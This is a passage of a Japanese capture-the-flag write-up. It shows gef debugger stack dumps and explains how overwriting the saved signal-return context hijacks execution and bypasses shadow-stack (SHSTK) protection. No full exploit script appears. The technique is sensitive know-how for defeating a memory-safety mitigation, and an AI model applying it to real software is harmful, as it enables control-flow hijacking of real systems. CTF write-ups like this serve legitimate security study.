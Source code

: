 ```
[#0] 0x40190d → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```

続いてmainに戻ったときのスタックです。rip含めレジスタ一式がそのまま残っているように見えます。ここをまるっと書き換えることで、シグナルからの復帰のコンテキストをそのまま乗っ取れます。

```
gef➤  tel
0x00007ffc158f6eb8│+0x0000: 0x00000000004046e0  →  <__restore_rt+0> mov rax, 0xf         ← $rsp
0x00007ffc158f6ec0│+0x0008: 0x0000000000000007   ← $rdx
0x00007ffc158f6ec8│+0x0010: 0x0000000000000000
0x00007ffc158f6ed0│+0x0018: 0x0000000000000000
0x00007ffc158f6ed8│+0x0020: 0x0000000000000002
0x00007ffc158f6ee0│+0x0028: 0x0000000000000000
0x00007ffc158f6ee8│+0x0030: 0x00007ffc158f7ad0  →  0x0000000000000000
0x00007ffc158f6ef0│+0x0038: 0x0000000000000000
0x00007ffc158f6ef8│+0x0040: 0x0000000000000008
0x00007ffc158f6f00│+0x0048: 0x0000000000000202
gef➤  
0x00007ffc158f6f08│+0x0050: 0x00007ffc158f7cc8  →  0x00007ffc158f82cb  →  0x53006c6168632f2e ("./chal"?)
0x00007ffc158f6f10│+0x0058: 0x00007ffc158f7cd8  →  0x00007ffc158f82d2  →  "SHELL=/bin/bash"
0x00007ffc158f6f18│+0x0060: 0x00000000004a5f68  →  0x00000000004018b0  →  <frame_dummy+0> endbr64 
0x00007ffc158f6f20│+0x0068: 0x0000000000000001
0x00007ffc158f6f28│+0x0070: 0x000000000000000b ("
                                                 "?)
0x00007ffc158f6f30│+0x0078: 0x00007ffc158f78e0  →  0x0000000000000000
0x00007ffc158f6f38│+0x0080: 0x6161616e6161616d
0x00007ffc158f6f40│+0x0088: 0x0000000000000001
0x00007ffc158f6f48│+0x0090: 0x0000000000000000
0x00007ffc158f6f50│+0x0098: 0x0000000000000000
gef➤  
0x00007ffc158f6f58│+0x00a0: 0x00000000004047ca  →  0x870ffffff0003d48 ("H="?)
0x00007ffc158f6f60│+0x00a8: 0x00007ffc158f7bb8  →  "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabba[...]"
0x00007ffc158f6f68│+0x00b0: 0x00000000004019ac  →  <main+159> ret 
0x00007ffc158f6f70│+0x00b8: 0x0000000000010246
0x00007ffc158f6f78│+0x00c0: 0x002b000000000033 ("3"?)
0x00007ffc158f6f80│+0x00c8: 0x0000000000000000
0x00007ffc158f6f88│+0x00d0: 0x000000000000000d ("\r"?)
0x00007ffc158f6f90│+0x00d8: 0x0000000000000000
0x00007ffc158f6f98│+0x00e0: 0x0000000000000000
0x00007ffc158f6fa0│+0x00e8: 0x00007ffc158f7080  →  0x000000000000037f
gef➤  
```

というわけで、sigreturnを使ったというよりは、使われていたのをとてもきれいに利用したというエクスプロイトでした。すごい。

シグナルハンドラからのリターンアドレス以降を書き換えられるときはSHSTKをバイパスして任意の状態にできるため、かなり強力です。
